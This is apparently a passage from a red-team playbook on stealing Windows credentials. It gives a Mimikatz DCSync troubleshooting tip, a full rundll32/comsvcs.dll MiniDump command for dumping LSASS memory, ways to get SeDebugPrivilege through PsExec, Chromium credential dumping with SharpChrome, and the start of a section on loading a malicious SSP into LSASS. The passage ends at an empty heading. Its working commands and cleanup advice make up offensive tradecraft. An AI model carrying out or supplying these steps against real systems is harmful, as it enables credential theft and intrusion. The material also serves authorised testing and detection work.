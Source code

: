 If Mimikatz is giving an error of `ERROR kuhl_m_lsadump_dcsync ; GetNCChanges: 0x00002105 (8453)`, try the following:

```
cmd> klist purge
cmd> gpupdate /force
```

## LSASS dumping using comsvcs.dll - via rundll32.exe

Use `rundll32.exe` to call the `MiniDump` export from `comsvcs.dll`

### Prerequisites

- Administrator rights
- SeDebugPrivilege

### Guidance

```
shell> rundll32.exe c:\windows\system32\comsvcs.dll MiniDump {{ lsass_pid }} {{ outpath }} full
```

This command must be run from a shell process that has `SeDebugPrivilege` enabled. 
PowerShell should work to this end. 

You can acquire `SeDebugPrivilege` for `cmd.exe` by launching it as `SYSTEM` via Sysinternals' `PsExec` (`psexec -sid cmd`). 
Alternatively, you can use the VBScript file from `modexp`: https://modexp.wordpress.com/2019/08/30/minidumpwritedump-via-com-services-dll/ (`cscript procdump.vbs lsass.exe`)

### Cleanup

- Delete the dump file

## Browser credential dumping - Chromium-based via SharpChrome

https://github.com/GhostPack/SharpDPAPI

### Prerequisites

- kill all processes for the target browser
- compiled binary 
	- using Visual Studios: -> load solution file -> set to "Release" -> build

## LSASS Security Service Provider - Temporary SSP

Register a Security Service Provider (SSP) for LSASS. This will trigger a DLL load of the SSP into LSASS.

Register an SSP temporarily by calling the AddSecurityPackage() API.

### Prerequisites
